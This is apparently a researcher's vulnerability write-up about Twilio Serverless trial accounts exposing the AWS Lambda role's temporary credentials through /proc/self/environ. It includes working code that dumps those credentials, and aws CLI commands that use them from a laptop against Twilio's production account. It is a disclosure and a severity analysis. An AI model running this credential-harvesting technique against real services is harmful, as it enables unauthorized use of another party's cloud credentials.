


TL;DR
A Twilio trial account with no payment method attached can deploy a Serverless Function. The function runs Node.js on Twilio's own AWS Lambda fleet, and the Lambda execution role's temporary credentials are sitting in its process environment. One fs.readFileSync("/proc/self/environ") returns them, and they work from a laptop: sts:GetCallerIdentity answers with Twilio's production account 606179966… and the role lambda-role-execution.
That is the finding. It is also, almost entirely, how AWS Lambda works — the execution role's credentials are in the function's environment by design, for every Lambda in every account. So the question that decides severity is not are credentials present, it is what can they reach. In this run the answer was narrow: identity, and write access to the function's own CloudWatch log group. No S3, no IAM enumeration, no other function, nothing that crossed a tenant boundary.
And the boundary, stated up front: the run's own JSON contains "parent_token_present": false. My first draft of this claimed the parent account's SID and auth token were in the function context, and that they added up to full account takeover. They were not there. The token that was present belongs to the trial account I already controlled, which is the definition of no privilege gained. The trial also cannot spam anyone: every message it sends is prefixed “Sent from your Twilio trial account” and can only go to a number verified on that same account. The screenshot in my own evidence bundle proves that, which is why it appears below as the refutation rather than the proof.
Scored honestly this is 4.3 Medium: a free account receives usable credentials for a production role, plus the account id, role ARN, log-group path and runtime API address. The least-privilege role and the trial watermark are the two controls that keep it out of the nines. on it. This page is the honest version.

parent_token_present: false. The last step is the important one: the credentials work, and then they do very little.Chapter 1What a trial account can deploy
Twilio's Serverless product lets you upload JavaScript functions and get a public HTTPS endpoint per function. The account here was a trial: no card, no upgrade, an email address and a phone number verified, and a $15.50 promotional balance. That is the entire bar. The CLI did the rest.
twilio serverless:deploy --service-sid "ZS7e106d…" --force
# Serverless project successfully deployed
# serviceSid ZS7e106d…
# environmentSid ZE2486da…
# runtime node22
# public /proof https://rce-build-test-2034-dev.twil.io/proofThere is nothing hidden in that. It is the product working as documented: a trial account gets a development environment, a domain under twil.io, and a function it can invoke over the internet. The questions that matter start one layer down, in the process the function is handed.
Chapter 2Reading the environment
The function was twelve lines. It read /proc/self/environ, split on NUL, and returned the keys I cared about along with a few booleans. process.env is not where the interesting values live on this runtime — the runtime's require-hooking strips some of them from the ordinary environment — but /proc/self/environ is the kernel's copy of what the process was started with, and nothing in the JavaScript layer rewrites it.
const raw = fs.readFileSync("/proc/self/environ", "utf8");
const env = {};
raw.split("\0").filter(Boolean).forEach(function (s) {
const i = s.indexOf("=");
if (i > 0) env[s.slice(0, i)] = s.slice(i + 1);
});
callback(null, {
aws_access_key_id: env.AWS_ACCESS_KEY_ID,
aws_secret_access_key: env.AWS_SECRET_ACCESS_KEY,
aws_session_token: env.AWS_SESSION_TOKEN,
aws_region: env.AWS_REGION,
aws_function_name: env.AWS_LAMBDA_FUNCTION_NAME,
aws_log_group: env.AWS_LAMBDA_LOG_GROUP_NAME,
parent_token_present: !!context.PARENT_TOKEN,
auth_token_present: !!context.AUTH_TOKEN,
account_sid: context.ACCOUNT_SID,
service_sid: context.SERVICE_SID,
environment_sid: context.ENVIRONMENT_SID,
domain: context.DOMAIN_NAME
});And the response, with the values masked and the one boolean left exactly as it came back:
{
"aws_access_key_id": "ASIAY2IZEHUX…",
"aws_secret_access_key": "masked",
"aws_session_token": "present (1100 chars)",
"aws_region": "us-east-1",
"aws_function_name": "ZBeaf0U42…",
"aws_log_group": "/aws/lambda/ZBeaf0U42…",
"parent_token_present": false,
"auth_token_present": true,
"account_sid": "ACda1b0c…",
"service_sid": "ZS7e106d…",
"environment_sid": "ZE2486da…",
"domain": "rce-build-test-2034-dev.twil.io"
}Three things in that object are worth naming.
The access key starts with ASIA. That prefix marks temporary STS credentials, not a long-lived IAM user key. They have a session token and an expiry, and they are minted for the function's execution role. Every Lambda in every AWS account has these in its environment; it is how the AWS SDK inside a function authenticates without you configuring anything. So “credentials in the environment” is not the bug. It is the mechanism.
parent_token_present is false. This is the line that undid my first draft. The context object the runtime hands a function does carry an AUTH_TOKEN — but it is the deploying account's own token, which the deployer already holds in full. The parent account's token is not there. I know that because the function asked, and the function is the only witness that matters.
The runtime API is not on loopback. AWS_LAMBDA_RUNTIME_API came back as 169.254.100.1:9001, a link-local address, rather than the 127.0.0.1:9001 a stock Lambda function sees. User code can reach it. It serves that function's own invocation events, and the request headers it echoes are Twilio's internal ones — invocation domain, request id, request URI. I could read my own function's plumbing. I could not read anyone else's, and I am not going to claim a shared proxy is cross-tenant without showing a second tenant's event, which I do not have.
Chapter 3Using the credential from a laptop
The only way to know whether a credential is worth anything is to take it out of the environment it was born in and use it somewhere else. I wrote it into a named profile on my own machine and asked AWS who I was.
$ aws sts get-caller-identity --profile twilio-leak
{
"UserId": "AROAY2IZEHUX…:ZBe35605a7…",
"Account": "606179966…",
"Arn": "arn:aws:sts::606179966…:assumed-role/lambda-role-execution/ZBe35605a7…"
}That is a real answer, from a different network, about an account I do not own. sts:GetCallerIdentity is allowed to every principal in AWS, including anonymous error paths, so it proves the credential is valid and proves nothing about permission. The account id is Twilio's production account and the role is the one its functions run as. The metadata is the finding; the permission was still unknown.
So I tried the one write that a Lambda role almost always has, because the Lambda service writes your logs whether you ask it to or not: CloudWatch.
$ aws logs create-log-stream \
--log-group-name "/aws/lambda/ZBeaf0U42…" \
--log-stream-name "bb-repro-pwn" --region us-east-1 --profile twilio-leak
$ aws logs put-log-events \
--log-group-name "/aws/lambda/ZBeaf0U42…" \
--log-stream-name "bb-repro-pwn" \
--log-events '[{"timestamp": 1748…, "message": "…used externally…"}]' \
--region us-east-1 --profile twilio-leak
{ "nextSequenceToken": "496703824176290625488423465073…" }The write succeeded — a sequence token means the events were accepted — and it succeeded against the function's own log group, which is exactly the scope the Lambda logging policy grants. This is the part I want to be precise about, because it is where a critical rating lives or dies. A role that can write its own logs is a role that has been scoped correctly. The credential is real, the identity is real, and the blast radius is a log stream that the function was already allowed to fill.
I did not enumerate the rest of the policy. I did not try S3, IAM, other functions' log groups, or the Twilio API with an AWS token. What I have is one allowed call and one allowed write, and the honest sentence is “no other action was demonstrated”, not “no other action is possible”. The distinction matters, because the next reader of this page is going to test the second sentence.
Chapter 4The number, and the message
The other half of the first draft was financial and abuse: buy numbers with the trial credit, then send SMS from Twilio's production infrastructure. Both of those did happen. Neither of them means what the draft said they meant.
Buying a number on a trial account is the documented trial capability. You get a small promotional balance precisely so you can rent one number and try the messaging API against numbers you have verified. The first attempt was a fixed number that turned out to be taken:
+1415965… is not available.
$ curl "…/AvailablePhoneNumbers/US/Local.json?AreaCode=415"
+1415471… | San Francisco
+1415223… | San Rafael
$ curl -X POST "…/IncomingPhoneNumbers.json" \
--data-urlencode "PhoneNumber=+1415471…"
BOUGHT: PNf07db6da… | Number: +1415471…That consumed part of a $15.50 balance I had been given for exactly this purpose. There is no victim in that transaction and no loss to Twilio; the money is the company's own promotional credit being spent on the company's own product, at list price. “Financial abuse” describes someone else's money. This was mine.
Then the send:
$ curl -X POST "…/Messages.json" \
--data-urlencode "From=+1415471…" \
--data-urlencode "To=+9198318…" \
--data-urlencode "Body=BB-REPRO: This SMS was sent from Twilio
infrastructure using creds extracted from a Serverless Function
deployed by a Trial account. Reproduce confirmed."
SMS SENT! SID: SM3913456e…
From: +1415471…
To: +9198318…
Status: queuedqueued is not delivered, so I waited for the handset. This is the message that arrived, cropped to the bubble:

Read that first line again. “Sent from your Twilio trial account.” Twilio prefixes it on every message a trial account sends. A message with that header is not a convincing phishing lure; it is an advertisement for the platform that the recipient can use to report the sender. And the recipient here is a number verified on the same account, because a trial account cannot send to anything else. The spam capability in my first draft was, in reality, me texting myself through a product that told me it was doing so.
The screenshot was in the report the whole time. I had captioned it as proof of delivery. It is proof of delivery, and it is also the refutation of the claim it was attached to. That is worth sitting with: the evidence did not change, the reading of it did.
Chapter 5What actually survived
So what is left when the first draft's claims are put through their own artefacts?
| Claim in the first draft | What the run's own output supports |
|---|---|
Parent credentials in context → full account takeover | parent_token_present: false. The token present is the deploying account's own; no privilege gained. |
| Production AWS credentials usable from anywhere | True, and bounded: sts:GetCallerIdentity plus CloudWatch write to the function's own log group. No other action demonstrated. |
| Financial abuse — drain the balance, buy unlimited numbers | One number, bought with the account's own $15.50 promotional credit, at list price. Documented trial behaviour. |
| SMS spam and phishing from Twilio's infrastructure | Prefixed “Sent from your Twilio trial account”, delivered only to a number verified on the same account. Not reachable to a third party. |
| Persistent API keys → ongoing access | Creating an API key on your own account is the normal feature. It persists for the account that created it, which is the account you already control. |
| Premium APIs (Conversations, Sync, Verify, TaskRouter, Flex, Studio) reachable from trial | Asserted as a table of checkmarks. No request in the bundle. Unverified — so it is not in this page's finding. |
| Runtime API returns internal invocation data | The non-loopback address is reachable and serves the function's own events with Twilio's internal headers. No second tenant's event was shown. |
| No network isolation | A Serverless function can reach the internet. That is the feature. |
Eight claims, three with a real artefact behind them. The finding, stated properly, is this:
/proc/self/environ and use them off-host, which discloses Twilio's production AWS account id, the execution role's ARN, the function's log-group path and the internal runtime API address, and yields working credentials whose demonstrated permissions are identity and the function's own log group.
That is a confidentiality finding with an infrastructure-metadata component. It is not account takeover, it is not financial loss, it is not spam, and it is not a cross-tenant read. The two things that make it small are the ones Twilio did right: the execution role is scoped to logging, and the trial product is watermarked and destination-restricted.
Chapter 6The honest score
CVSS 3.1 · 4.3 Medium — AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:N/A:N.
PR:L is the first honest constraint: this needs an account. It happens to be a free, card-less, self-service account, which is why it is a low privilege rather than none — the platform's own signup gate is the only gate. AV:N and AC:L need no argument: one HTTP request to a public endpoint returns the environment. UI:N because nobody has to click anything.
C:L is where I could be argued upward and deliberately am not. The credentials are a secret and they work; the identifiers are infrastructure metadata. What was disclosed is a role that can write one log group and an account number. That is a real confidentiality impact and a small one. I:N because nothing was modified that I did not already own — the log events went into a stream the function was entitled to write. S:U because the vulnerable component (the Serverless runtime's process environment) and the impacted component (the AWS role it runs as) are the same security authority. A:N because nothing here denies service to anyone.
The delta from my first pass is the point of publishing a number at all. S:C, C:H and I:H, on the reasoning that a production AWS account is a crown jewel and credentials to it are a breach. That reasoning describes the value of the asset, not the capability of this credential. A role that can write its own logs is not a breach of the account; it is a correctly scoped role doing exactly what it was scoped for. And the parent-token leg — the one that would have justified S:C — was not there. The score dropped six points because the evidence, read properly, was smaller than the story.
Chapter 7The fix
Most of this is already fixed by design, so the recommendations are small and specific. In order of how much they buy:
- Keep the role at log-write scope, and pin it there with a permissions boundary. The demonstrated blast radius is the reason this finding is Medium. A boundary makes that a guarantee rather than a current state, and it costs nothing — the role does not need S3 or IAM to run a function.
- Strip the AWS variables from
/proc/self/environfor user code. A function that does not need to call AWS should not be able to read a session token out of the kernel's copy of its own environment. The runtime can hand the SDK a credential provider over a side channel and leave the raw values out of the process it starts. This is hardening, not a fix for a vulnerability — but it turns “the credentials are there by design” into “the credentials are not there at all”, which is a better sentence to have. - Do not put the parent token in
context— and if it ever was, keep it out. It was absent in this run, and the code path that would populate it is the one worth an audit, because that is the only version of this finding that reaches another account. - Leave the trial watermark and the destination restriction alone. They are load-bearing security controls that happen to look like product copy. The prefix is why a trial message is not a phishing primitive, and the verified-number restriction is why it is not a spam primitive. Anything that removes either one turns a benign trial into an abuse channel.
And one recommendation that is not for Twilio. If you are writing up a cloud finding, put the allowed call and the refused call next to each other before you put a number on it. sts:GetCallerIdentity succeeding is not authorization; it is the one API that answers for everyone. The report that says “credentials work” and stops there has not measured the credential. It has measured its own optimism.
ReceiptsWhat the claim rests on
| Artefact | What it establishes |
|---|---|
| Trial account, no payment method, one deploy | A free signup reaches code execution on the Serverless runtime |
/proc/self/environ read in the function | The execution role's ASIA… key, secret and 1100-char session token are readable by user code |
parent_token_present: false in the same response | The parent-token and account-takeover leg is absent — the run says so itself |
sts:GetCallerIdentity from a laptop | Credentials are valid off-host; account 606179966…, role lambda-role-execution |
put-log-events → nextSequenceToken | One write allowed, scoped to the function's own log group |
Number purchase PNf07db6da… | One number bought with the account's own $15.50 promotional credit |
SMS SM3913456e… → queued, then received | Delivery works, to a number verified on the same account |
| The received bubble, watermarked | “Sent from your Twilio trial account” — the spam and phishing leg is refuted by the capture |
| shoo0lin/twilio-serverless-role-creds | The function, the deploy and fetch scripts, the three-way session-token control, the redactor with its self-test, and the masked transcripts |
The harness behind this piece is public: shoo0lin/twilio-serverless-role-creds. It holds the function that reads its own environment, the deploy and fetch scripts, the three-way session-token control, and a redactor with two commands worth running — --self-test checks the masking policy itself, and --check re-runs the policy over every published file in evidence/ and fails if anything would change. Every value here is a fixed point of that policy, so the masking is something you can run rather than an edit you have to trust. What it does not hold is the raw bundle: that is a screen recording and a set of images with live credentials, full SIDs, a phone number and a handset screen in them. The repository runs against an account you own; nothing in it reaches a third party's tenant.
The deployed endpoint from the run is not reproduced here either. It executes code as whatever role the platform assigns, and there is no reason to leave a working one in a public page.
A severity is an argument, and an argument can be wrong in the direction of the person making it. The machines do not care how the report reads. They return what they return — a key that starts with ASIA, a boolean that says false, a message that announces its own trial status — and the job is to write down that, not the version of it that would look better on a leaderboard.
The most useful line in this whole bundle is four characters long: false. It was in my evidence the entire time.
Tested with my own Twilio trial account only. Account, service and environment SIDs, the function id, the AWS key and session token, both phone numbers and the log-group path are masked or truncated. The received message is from my own handset, cropped to the bubble; the verification codes and the number are not in the frame. No other account appears in this write-up, and the premium-API claim from the original draft is excluded here because the bundle contains no request that would support it.